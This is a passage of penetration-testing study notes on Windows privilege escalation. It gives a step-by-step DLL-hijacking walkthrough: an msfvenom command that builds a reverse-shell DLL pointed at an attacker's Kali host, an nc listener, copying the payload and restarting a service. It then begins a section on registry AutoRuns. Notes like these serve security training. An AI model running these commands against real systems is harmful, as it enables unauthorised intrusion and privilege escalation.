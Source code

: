 1. WinPEAS "Checking write permissions in PATH folders (DLL Hijacking)

```
(DLL Hijacking) C:\Temp: Authenticated Users [WriteData/CreateFiles]
```

2\. Verify that we can start/stop the service

```
accesschk.exe /accepteula -uvqc user dllsvc
```

3\. Confirm executable manually (grab this information from WinPEAS)

```
sc qc dllsvc
```

4\. Generate a DLL-formatted payload for a reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali-ip> LPORT=53 -f dll -o /tools/hijackme.dll
```

5\. Fire up a Netcast listener on Kali

```
nc -lnvp 53
```

6\. Transfer/Copy the reverse shell over into the C:\Temp directory as this is writable in this case

```
copy \\<kali-ip>\tools\hijackme.dll C:\Temp
```

7\. Stop the service and then start the service right after

```
net stop dllsvc
Stopped successfully

net start dllsvc
Starting...
```

## Registry Exploits

### AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.

These "AutoRuns" are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system, you may be able to escalate privileges.

How to Detect:

WinPEAS

